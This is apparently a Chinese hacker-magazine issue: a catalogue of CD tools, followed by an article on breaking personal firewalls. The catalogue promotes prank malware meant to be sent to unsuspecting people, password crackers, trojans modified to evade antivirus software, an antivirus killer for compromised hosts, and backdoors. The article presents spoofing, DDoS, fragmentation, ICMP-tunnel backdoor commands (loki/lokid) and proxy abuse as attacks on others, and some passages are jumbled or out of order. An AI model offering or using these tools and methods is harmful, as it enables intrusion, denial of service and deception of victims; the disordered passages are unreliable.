### 你问我答

### 愚人节专题

出气娃娃，最近比较烦，比较烦，我真的比较烦，比较烦，忍无可忍，不能再忍。我要出手了，这里有个让你出气的娃娃。

光驱炸弹，运行后你就发现你的光驱不听使唤了，一会儿进一会儿出的。

国际歌，晕，怎么老是出来？有歌词，有音乐，还关不掉……好在，readme.txt 里面有解决办法。特别特别警告！此软件危险性较高！请先阅读 readme.txt！初级电脑玩家慎用！

蓝屏炸弹，你可以把它改名后发给 MM，告诉她偶尔得到了一个有趣的小程序，她运行后会出现“蓝屏错误”不能退出，她会复位重启。

“愚人节”，运行时会修改注册表隐藏驱动器。

好好修理日本人，在军国主义野心扩张引起的战争中，无数人民付出了血的代价！国恨家仇，56 年来难以忘记。于是有网友做了这个游戏，让大家提高警惕，继续打击那些军国主义的支持者及死不悔改的日本右翼分子……让我们对日本鬼子挥起大锤！

魂斗罗，童年的无忧时光，小伙伴们你一句我一嘴的热闹风光……愿从前那份愉悦心境能永远伴随着我们。

牛牛历险记，看你能不能操作他完成你的任务？要使用你的头脑啊！

乒乓球对打，一个糟糕的乒乓球游戏，虽然看着界面比较简洁，但是要想打败电脑对手可不是那么一件简单的事情哦，不信你就试试吧……

王牌巡航机，宇宙巡航机的主要任务，是给大型运输舰开道，扫清前进的障碍。不幸的是，这次遇上了密集的陨石流，舰队能否顺利通过，就看巡航机的表现了，作为一名王牌飞行员，可别让大家失望啊！

小偷克星，在车上，看到小偷在偷别人钱财的话，你会怎么样？挺身而出或是装聋作哑？禽流感，站在鸡的立场来看……

看吧，虽然是个搞笑短片，但是看了之后感觉怪怪的，挺不是滋味。

韩国精彩 MV，我的野蛮老师中的男主角和崔智友演绎的一段感人的故事，很不错哦~~

全球美妙的意境的 MTV，这部 MTV 的背景充满了美妙的意境，再加上女主角真情的演绎与完美的歌喉，绝对是当之无愧的最凄美的 MTV。

韩国《天使》美眉 MTV，韩国网络游戏《天使》（ShiningLore）官方制作的由韩国美少女组合演唱的主题曲，3 个 MM 真的很可爱~

仙妮亚唐恩 MTV，大姊大人物仙妮亚唐恩挟着音乐史上单张专辑销售第一的光环，全新专辑“Up 飞起来”列为压轴登场的最大发行。

## 极地

打砖块，一款日本经过很多改进，加入了新新元素的打砖块游戏。

决斗游戏，讲述了一个在校园历险的故事，情节设计得相当惊险刺激！在上课时出现了恐怖分子，学生与恐怖分子的搏斗以生命为赌注……

连连看，蝴蝶、脚本小子、wtf 长期在玩的游戏，毅力和眼力的考验！

潜艇大战，该游戏一共有 20 关：第二关开始有发射导弹的潜艇，第七关开始有袭击舰船的水母，第十关开始有喷射火球的怪鱼。

极品飞车液晶版，具有挑战性的赛车游戏，操纵简单。

少女决斗，可爱的少女武士妹妹愿意牺牲自己来保护村子中的人，并尝试与怪物们对抗，于是她朝怪物的树林深处走去……

景点推荐歌曲展播：坚持到底，你就像个小孩；他一定很爱你、哈……阿杜；梅艳芳——亲密爱人；梅艳芳经典回放；耶稣爱你；为了爱情；握紧我的手；无所谓；两个人的世界；爱的生命；风往北吹。

## 自由区

OllyDbg 1.09C 中文版，目前风头强劲的一款跟踪软件，它的跟踪和反跟踪做得都很不错，功能强大，跟踪起来数据清晰明了。

w32dasm，最经典的反编译软件，经过无数牛人的修改后增加了对 VB、Delphi 字符串的支持，增加了反 Anti 的强度、注释等等，至今还是反编译的首选。强烈推荐使用！

Brutus，可远程破解 HTTP、FTP、TELNET、POP3、SMB 等账号、密码，支持代理，使用方便。

Pwdremover，一款用来解密 Adobe Acrobat PDF 口令保护的工具。

THC-Hydra，可以用来对需要网络登录的系统进行快速的字典攻击，包括 Samba、FTP、POP3、IMAP、Telnet、HTTP Auth、LDAP、NNTP、MySQL、VNC、ICQ、Socks5、PCNFS、Cisco 等，支持 SSL 加密。

Advanced RAR Password Recovery，能够很快地帮你找回你用 RAR/WinRAR 生成的 RAR 压缩文件的密码，支持暴力以及基于字典破解。

dcmd5，Win32 平台下的 MD5 暴力解密工具。

ASProtect Loader，可以和修改壳本身，也可以修改程序本身，很实用的一个小东西。

## 点金石

M2M 封包分析工具，对游戏数据包截获并分析的程序。

.NET Framework，黄金眼需要此程序支持。

SQL 注入傻瓜工具，自动的 SQL 注入工具，可以自动判断数据库类型等，非常方便。

Nessus，Nessus 是一款可以运行在 Linux、BSD、Solaris 以及其他一些系统上的远程安全扫描软件。

Dev-C++，一个轻巧的 C++ 开发工具。

## 光盘目录 ENTS

可以在一台机器上同时运行两个或更多 Windows、DOS、LINUX 系统。

Windows XP Service Pack 2 Beta，这个升级包为测试的网络安装版本，仅仅适用于 Windows XP 的英文版本，请慎重安装。

QQ 漏洞之阴错阳差，你想在 QQSHOW 里穿上女孩子的衣服么？嘿嘿，免费得到 QQSHOW！

MHTML 文件重定向并执行漏洞，利用此漏洞生成的 htm 文件，对方打开后 IE 会下载指定 URL 上的 exe 文件并执行。

Kykiller，杀毒软件克星，自动寻找并杀除杀毒软件，极适合远程肉机运行后再使用自己的木马软件！

Microsoft WordPerfect 溢出漏洞，中文版利用 exploits。

#### 幽灵谷

- 偷窥者，《情人节专版》反弹端口型的远程文件访问工具，出色之处是不需要使用者拥有任何的远程控制和黑客技术，只要你会上网，就可以轻而易举地使用。它访问世界上任何一台正在上网的电脑。
- 木马私服远程控制，一个只有 4K 的小程序，功能强大。
- “冰河” V2004《情人节》专版，是为了让冰河这个经典的软件躲过现有的杀毒软件而作的一个修改版本。
- SSpytech SpyAnywhere，可在网络上通过浏览器输入被控端 IP 地址，来进入 SpyAnywhere 的管理界面。
- Wolff，扩展 Telnet 服务，可传输文件，可反弹连接，可通过参数选择随系统启动或作为普通进程启动。

#### 黄金盾

- snort，一个开放式的网络入侵检测系统。
- 瑞星 2004 个人防火墙，为您的计算机提供全面的保护，有效地监控任何网络连接。
- 江民黑客防火墙，彻底阻挡黑客攻击、木马程序等网络危险，保护上网账号、QQ 密码、游戏分值等重要信息不被盗窃。
- Windows 安全助手，针对系统存在的漏洞进行修复，对系统不安全服务进行设置，关闭危险端口，自动优化。
- 防 RPC 病毒安全策略包，本策略包禁用了任何远程的 IP 对您机器的 135 端口、139 端口、445 端口、ICMP 0 端口的连接，这样有效地防止了任何变种冲击波病毒的攻击。
- 反黑大战，可查未知木马！木马、QQ 盗号软件、传奇盗号软件等各种黑客程序一杀无遗！查杀全面准确，速度超快！
- Niloo IIS Security Scanner，一款 MS Webserver 漏洞扫描器，可以扫描多达 750 种 IIS 4.0/5.0 漏洞。详细命令行和故障排除。
- 绿鹰 PC 万能精灵，一款集系统优化、病毒清理、黑客防御、OICQ 娱乐于一体的综合软件。

#### 补丁园

- 金山毒霸 2003 `6` 标准版升级包，可查杀超过 2 万种病毒家族和近百种黑客程序，最新的升级包。
- KV 江民杀毒王 2003/2004 离线增量升级包。
- Norton AntiVirus 病毒库，可帮你自动连上 Symantec 的 FTP Server 下载最新的病毒码，于下载完后自动完成装载更新的动作。
- 微软 Microsoft Office 2000 Service Pack 3，可解决之前 Microsoft Security Bulletin 和几人之前公布的下载程序中所列出的问题。
- Windows 2000 最新补丁，其中集合了 Win2000 中的一些漏洞补丁的升级！

#### 动画堂

- QQ，利用腾讯漏洞匿名发消息动画教程。
- 破解密码结巴，W32Dasm 破解密码结巴 V4.10 网络完整版权教学演示。
- 域名欺骗，能够让你访问的域名或地址栏上变成你自己想要的任何一个域名。
- SERV-U 溢出，SERV-U 3.X/4.X 溢出工具 + 动画教学。
- MYSQL 连接器，牛族 MYSQL 连接器的使用方法。
- 获取肉鸡管理员密码，命令行下获取肉鸡管理员密码动画演示。
- Remote Administrator 动画教程，远程监控必备工具。
- X-scan 寻觅 ADSL 肉鸡，利用 X-scan 寻觅 ADSL 肉鸡。

#### 漏天剑

- SERV-U 溢出，编译好的 site chmod 溢出工具，默认的 shellport 为 53。
- T-SysCmd，Windows 系统下的内核级后门程序。它可为任意用户（包括 Guest）提供 SYSTEM 权限级别的 Command。
- MS03-048，该攻击代码是 liu die yu 在 1stCleanRc（New "Clean" IE Remote Compromise）基础上的改进版本。
- 蓝雪幻影，内含近 20 种功能，从扫描到密码破解一气呵成；无须其他软件，使攻击再也不是高手的专利！

#### 杂志相关

- Devil5，可以把后门 Devil5 插入到一些不随系统启动的程序里面，例如：iexplore.exe 中，从而更容易躲避防火墙的阻挡。
- UtilKit.Net Tools v25012004，一款为新手或有经验的因特网和企业内部网络用户设计，包含 10 个全面网络工具的软件。
- Ethereal，免费的网络协议检测程序，支持 Unix、Windows。
- ICMP Shell，一个是在 FreeBSD 4.9-STABLE 下编译好的二进制文件，一个是源代码，可在 UNIX/Linux 下编译。
- Crackme 实例分析，本实例是 lordor[Nuke Group] 编写的 blowfish 算法的 Crackme 程序。

刘流：自从 Internet 快速发展以来，攻击与反攻击之间的矛盾凸显无遗，有时候攻击更强悍一些，有时候防护更稳妥，网络世界的定律一直在被我们每个普通网友改写，而防火墙在攻击和防护中则占据着非常重要的作用！防护方使用它来对自己的系统进行最严密的安全防护，攻击方却把防火墙看作大敌，想方设法攻击它！——这样的对抗带来了攻防双方技术的不断进步！本期，我们将为大家在防册上献上最新的防火墙安全设置方案，用来抵抗各类网络攻击；同时，在攻册上，我们刊登最新的攻击防火墙技术，适合每个普通网民观看，因为防火墙就在你的身边，说不定哪天被攻击的就是你了！



## 挑战安全专家

文／安全天使

### 攻破个人防火墙

#### tips：什么是防火墙？

防火墙是采用综合的网络技术设置在被保护网络和外部网络之间的一道屏障，用以分隔被保护网络与外部网络系统，防止发生不可预测的、潜在破坏性的侵入。它是不同网络或网络安全域之间信息的唯一出入口，像在两个网络之间设置了一道关卡，能根据企业的安全政策控制出入网络的信息流，防止非法信息流入被保护的网络内，且本身具有较强的抗攻击能力。它是提供信息安全服务，实现网络和信息安全的基础设施。

看看其工作拓扑图（图 1）：



#### 防火墙的基本原理

要攻击防火墙必须对防火墙的原理有一定的了解。防火墙现在有 3 类，经过了总共 6 代的发展，最新的一代防火墙是智能抗 DDoS 防火墙。这 3 类防火墙的类型基本上是这样的：

1. 包过滤防火墙
2. 状态检查的包过滤防火墙
3. 应用层代理的防火墙

可见防火墙在一个网络中的安全地位，防火墙一旦被攻破将对企业和个人造成严重的安全问题。那么攻击防火墙就首先需要知道防火墙自身的机制。控制进出数据包就是防火墙的核心，防火墙主要通过这个访问控制表来判断，它的形式一般是一连串的如下规则：

1. `accept from + 源地址，端口 to + 目的地址，端口 + 采取的动作（允许数据包进入）`
2. `deny ............（拒绝数据包进入）`
3. `nat .............（网络地址转换）`

防火墙在网络层（包括以下的链路层）接受到网络数据包后，就从上面的规则链表一条一条地匹配，如果符合就执行预先安排的动作了！如丢弃包。但不同的防火墙在判断攻击行为时，有实现上的差别。

#### [tips2] 问题：什么是访问控制列表？有什么作用？

访问控制列表（Access Control List，ACL）是路由器接口的指令列表，用来控制端口进出的数据包。访问列表（access-list）就是一系列允许和拒绝条件的集合，通过访问列表可以过滤发进和发出的信息包的请求，实现对路由器和网络的安全控制。路由器一个一个地检测包与访问列表的条件，在满足第一个匹配条件后，就可以决定路由器接收或拒收该包。ACL 适用于所有的被路由协议，如 IP、IPX、AppleTalk 等。ACL 的定义也是基于每一种协议的。如果路由器接口配置成为支持 3 种协议（IP、AppleTalk 以及 IPX）的情况，那么，用户必须定义 3 种 ACL 来分别控制这 3 种协议的数据包。

访问控制列表有以下作用：

1. ACL 可以限制网络流量、提高网络性能。例如，ACL 可以根据数据包的协议，指定数据包的优先级。
2. ACL 提供对通信流量的控制手段。例如，ACL 可以限定或简化路由更新信息的长度，从而限制通过路由器某一网段的通信流量。
3. ACL 是提供网络安全访问的基本手段。如图 1 所示，ACL 允许主机 A 访问人力资源网络，而拒绝主机 B 访问。
4. ACL 可以在路由器端口处决定哪种类型的通信流量被转发或被阻塞。例如，用户可以允许 E-mail 通信流量被路由，拒绝所有的 Telnet 通信流量。

#### 攻击防火墙常用方法

由于防火墙的特性，所以防火墙可以分为软件式防火墙、操作系统式防火墙和硬件芯片类防火墙。我们在谈到攻击的时候都会对它们有涉及。

##### 1．IP 欺骗攻击技术

很显然，防火墙是通过访问策略来控制数据包，再加上防火墙内部的计算机是很脆弱的，所以如果能欺骗防火墙使其源地址为防火墙信任的 IP 地址，目的地址为防火墙内部的计算机，那么我们的攻击成功的机会就大了，否则数据包还没进入就被拦截了。

可是，如果防火墙能结合接口、地址来匹配，这种攻击就不能成功，像这类攻击的工具很多，如：ipspoof.zip、WinGate Spoofing 等（图 2）。



图 2

##### 2．D.O.S 拒绝服务攻击

防火墙可不是一攻就破的东西，攻击了半天失败了怎么办呢？我们还可以采取 D.O.S（拒绝服务攻击）法来耗尽防火墙的带宽。就好比 Windows 多开点 socket 就会耗尽资源一样，简单点的防火墙从不跟踪 TCP 的连接状态，通过 Syn、fin 等连续攻击就会攻死防火墙，导致内外服务完全阻塞。

幸运的是我们也许可以在防火墙处理无用连接的同时发送对内网的攻击数据包，像这样的例子不是很多吗？Cisco FWSM 防火墙模块就存在这样的远程拒绝服务攻击漏洞：

CSCeb16356（HTTP Auth）漏洞：传递使用 TACACS+ 或 RADIUS 验证的 HTTP Auth 请求，可使 Cisco FWSM 由于发送缓冲区溢出崩溃并重载。这个请求可以由用户通过发起 FTP、TELNET 或者 HTTP 连接而初始化。如果用户名和密码被指定的 TACACS+ 或 RADIUS 服务器验证通过，Cisco FWSM 才允许通信通过。

CSCeb88419（SNMPv3）漏洞：当 Cisco FWSM 模块上配置 snmp-server host `<if_name> <ip_addr>` 或 snmp-server host `<if_name>` 当对 `<ip_addr>` poll 时，处理接收到的 SNMPv3 消息时可使 Cisco FWSM 崩溃，产生拒绝服务。

通过提升攻击的范围，我们可以制造 D.DOS 攻击，意思就是分布式的拒绝服务攻击，提高了被攻击的范围；那么受害方的防火墙将承受很大的数据流的冲击。像这类工具有国产的很出名的 DDOS——Fulkcnet，它包含下面的攻击方式：

与此同时，我们到其他的计算机上进行 ping 测试（图 4）。

- a. ICMP 攻击，报文定在 1K（这个就是很著名的 ping of dos）。
- b. UDP 攻击，报文定在 1K。
- c. TCP 类攻击，其中，比如有 Synflood（也就是类型 101），Synflood(2) 加了一个 urg 紧急数据标识（也就是类型 104）以及各种标识位置位。
- d. DNS 攻击，其方式是模拟一次合法的 DNS 请求包，且伪源 IP，猛烈 flood 受害主机 DNS 服务；向受害主机以每秒 1 万到 2 万的速度解析各种域名，使其瘫痪。



图 4

我们发现此时对方的计算机在网络中已经变得不可用了！厉害吧？！

**刘流：** 我们收集了一个关于 DDOS 的录像在黑客光盘里面，大家可以看看这种攻击方式。

回头再看看 IP 协议中的 UDP 协议，UDP 协议常常被管理员忽视，但是通过 UDP packet sender utility，我们可以发送 UDP packet 进行拒绝服务攻击。它可以指定目标主机的 IP 和端口，并且攻击报文可以利用文本、随机字节和数据文件等方式组成。看看我们具体的攻击例子吧（图 3）。

##### 3．分片攻击法

这种攻击的原理是：在 IP 的分片包中，所有的分片包用一个分片偏移字段标志分片包的顺序，但是，只有第一个分片包含有 TCP 端口号的信息。当 IP 分片包通过分组过滤防火墙时，防火墙只根据第一个分片包的 TCP 信息判断是否允许通过，而其他后续的分片不作防火墙检测，直接让它们通过。这样，攻击者就可以通过先发送第一个合法的 IP 分片，骗过防火墙的检测，接着封装了恶意数据的后续分片包就可以直接穿透防火墙，直接到达内部网络主机，从而威胁网络和主机的安全。受该类攻击的防火墙也很多，大家可以看看“Superstack3”防火墙。SuperStack3 防火墙内存在过滤器存在着分片过滤漏洞，具体的测试过程可以看看下面的介绍：



图 3

3COM WEB 过滤器不能在检查请求是否匹配规则之前重装分片的包，因此，内网的用户可以通过提交分片形式的请求而绕过内容过滤器的访问规则，如攻击者通过浏览器浏览被规则设置不能访问的 blockedsite.com，很明显会被 3COM 内容过滤器阻挡；但是，如果攻击者通过 telnet 方法连接目标 IP 和 80 端口，然后构建如下 HTTP 请求：

```text
C:\>telnet blockedsite.com 80

GET / HTTP/1.1
Host: blockedsite.com
```

由于 Telnet 是基于行形式的，因此过滤器不能正确检查包含单个字符的合法数据的包；又由于服务器的回复，3COM Web 内容过滤是不进行检查的，所以可以绕过访问规则设置，访问受限资源。

## 4. 木马攻击法

木马攻击法的原理很简单，就是需要内网的用户安装一个木马，然后在内部对防火墙的安全规则进行重新设置。

有的防火墙很智能，它会屏蔽掉常用的木马端口。这样的话，我们需要的就是利用外部的 80 或者 53 端口，达到反弹防火墙的目的。反弹木马总的来说还是很好找的，像什么网络神偷、ICMP 精灵等等。顺便提一下，ICMP 木马其实也是利用了 ICMP 协议来穿透防火墙的。防火墙如果对外没有屏蔽掉 ICMP 协议的话，那么在内网杜绝 ICMP 木马就是不可能的事情了，这几个木马也是很多人用来绕过防火墙的办法。

#### 增强防火墙的攻击法

稍微先进一点的就要属带有攻击状态检测的包过滤防火墙了，这类防火墙有点类似于我们的 IDS（入侵侦测系统）。一句话，状态检测就是从 TCP 连接的建立到终止都跟踪检测的技术。

原先的包过滤，是拿一个一个单独的数据包来匹配规则的。可是我们知道，同一个 TCP 连接，它的数据包是前后关联的，先是 SYN 包，数据包，FIN 包，数据包的前后序列号是相关的。如果割裂这些关系，单独地过滤数据包，很容易被精心伪造的攻击数据包欺骗！！！如 Nmap 的攻击扫描，就有利用 SYN 包、FIN 包、RESET 包来探测防火墙后面的网络。相反，一个完全的状态检测防火墙，它在发起连接时就判断，如果符合规则，就在内存中登记了这个连接的状态信息（地址、port），后续属于同一个连接的数据包，就不需要再检测了，直接通过；而一些精心伪造的攻击数据包由于没有在内存中登记相应的状态信息，都被丢弃了。这样这些攻击数据包就不能绕过防火墙了。

说到状态检测，必须提到动态规则技术。在状态检测里，采用动态规则技术，原先高端口的问题就可以解决了。实现原理是：平时，防火墙可以过滤内部网络的所有端口（1—65535），外部攻击者难于发现入侵的切入点；可是为了不影响正常的服务，防火墙一旦检测到服务必须开放高端口时，如 FTP 协议、IRC 等，防火墙在内存中就可以动态地添加一条规则，打开相关的高端口。等服务完成后，这条规则就又被防火墙删除。这样既保障了安全，又不影响正常服务，速度也快。一般来说，完全实现了状态检测技术的防火墙，智能性都比较高，一些扫描攻击还能自动反应，因此，攻击者要很小心才不会被发现；但是，也有不少攻击手段对付这种防火墙。

## 1. 协议隧道攻击

协议隧道的攻击思想类似于 VPN 的实现原理，攻击者将一些恶意的攻击数据包隐藏在一些协议分组的头部，从而穿透防火墙系统，对内部网络进行攻击。例如：许多简单地允许 ICMP 回射请求、ICMP 回射应答和 UDP 分组通过的防火墙，就容易受到 ICMP 和 UDP 协议隧道的攻击。Loki 和 lokid（攻击的客户端和服务端）是实施这种攻击的有效工具。在实际攻击中，攻击者首先必须设法在内部网络的一个系统上安装上 lokid 服务端，而后攻击者就可以通过 loki 客户端将希望远程执行的攻击命令（对应 IP 分组）嵌入在 ICMP 或 UDP 包头部，再发送给内部网络服务端 lokid，由它执行其中的命令，并以同样的方式返回结果。由于许多防火墙允许 ICMP 和 UDP 分组自由出入，因此攻击者的恶意数据就能附带在正常的分组中，绕过防火墙的认证，顺利地到达攻击目标主机。下面的命令是用于启动 lokid 服务器程序：

```text
lokid -p 1 -v1
loki 客户端则如下启动：
loki -d 172.29.11.191（攻击目标主机）-p 1
-v1 -t3
```

这样，lokid 和 loki 就联合提供了一个穿透防火墙系统、访问目标系统的后门。

这样，“kill” 一样，对方内网服务就全部不能用了，比直接攻击来得简单多了！

## 2. 利用 FTP—PASV 绕过防火墙认证的攻击

FTP—PASV 攻击是针对防火墙实施入侵的重要手段之一。目前很多防火墙不能过滤这种攻击手段。如 CheckPoint 的 Firewall-1，在监视 FTP 服务器发送给客户端的包的过程中，它在每个包中寻找“227”这个字符串。如果发现这种包，将从中提取目标地址和端口，并对目标地址加以验证。通过后，将允许建立到该地址的 TCP 连接。

攻击者通过这个特性，可以设法连接受防火墙保护的服务器和服务。

软防火墙其实也充当了部分软路由的功能，小的软件像 WinGate 就是我们常见的东西。导致 WinGate 安全漏洞的原因，大多数是管理员没有根据网络的实际情况对 WinGate 代理防火墙软件进行合理的设置，只是简单地从缺省设置安装完毕后就让软件运行，这就给攻击者可乘之机。看看 WinGate 都存在哪些漏洞吧：

#### 面对操作系统和软防火墙的攻击办法

没有无坚不摧的硬件，更没有固若金汤的软件。很多网络管理员喜欢拿一台计算机安装 2 个网卡来充当操作系统级别的防火墙，然后通过几个简单的路由规则来实现两个网段的访问。大家都知道 Windows 系统本身就存在很多的漏洞。一旦我们把操作系统级别的防火墙攻破，那么我们攻击内部的计算机简直太容易了。

像攻击操作系统的软件实在太多了。比如：DCOM 溢出、Messenger 溢出……太多了。

## 1. 非授权 Web 访问

某些 WinGate 版本（如运行在 NT 系统下的 2.1d 版本）在误配置情况下，允许外部主机完全匿名地访问因特网。因此，外部攻击者就可以利用 WinGate 主机来对 Web 服务器发动各种 Web 攻击（如 CGI 的漏洞攻击等）；同时由于 Web 攻击的所有报文都是从 80 号 TCP 端口穿过的，因此很难追踪到攻击者的来源。

检测 WinGate 主机是否有这种安全漏洞的方法如下：

- 1. 以一个不会被过滤掉的连接（譬如说拨号连接）连接到因特网上。
- 2. 把浏览器的代理服务器地址指向待测试的 WinGate 主机。
- 3. 如果浏览器能访问到因特网，则 WinGate 主机存在着非授权 Web 访问漏洞。

##### 攻击实际例子：

扫描一段网络，发现一台 Windows 2000 的防火墙，但由于外网安全做得不是很好，我们发现其开了 139 端口。尽管它的 139 需要密码验证，但我们可以瞬间让其崩塌掉（图 5）。

## 2. 非授权 Socks 访问

在 WinGate 的缺省配置中，Socks 代理（1080 号 TCP 端口）同样是存在安全漏洞。与打开的 Web 代理（80 号 TCP 端口）一样，外部攻击者可以利用 Socks 代理访问因特网。

## 3. 非授权 Telnet 访问

它是 WinGate 最具威胁的安全漏洞。通过连接到一个误配置的 WinGate 服务器的 Telnet 服务，攻击者可以使用别人的主机隐藏自己的踪迹，随意地发动攻击。

